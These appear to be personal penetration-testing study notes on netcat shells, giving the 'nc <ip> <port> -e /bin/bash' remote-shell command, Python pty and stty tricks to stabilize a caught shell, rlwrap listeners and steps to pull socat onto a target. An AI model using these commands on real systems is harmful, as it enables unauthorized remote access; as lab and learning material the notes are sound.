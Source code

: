 # NetCat shell
`-e <cmd>` - specify a command to execute e.g. `nc <ip> <port> -e /bin/bash` for a shell \
The `-e` flag must always be on the listener.
 
# Shell stabilization
We have caught or connected to a netcat shell
## Python
1. `python -c 'import pty;pty.spawn("/bin/bash")'` - maybe need python2 or python3
2. `export TERM=xterm` - gives access to term commands like clear
3. Ctrl + Z to background the shell
4. `stty raw -echo; fg` - trun of own terminal echo and foreground shell

If shell dies use `reset` to turn on echo again

## rlwarp
We invoke nc via rlwrap which gives us access to history, tab completion and arrows. \
Needs to be installed if it is not. \
Also stabilized Windows shell. 

`rlwrap nc -lvnp <port>` - start nc in rlwrap

On Linux we can stabilze the shell completly by turning off our own terminal echo like above. 

## Socat
On linux this is a fully featured shell. On windows it is not more stable than a nc shell.
1. Obtain a static compiled binary of the socat shell for you target.
2. Use the netcat shell to download socat to the target
3. Invoke socat from the netcat shell

## Manually changing size of shell
`stty -a` - gives the host shell size \
`stty rows <row-size>` and `stty cols <cols-size>` changes the remote shell size

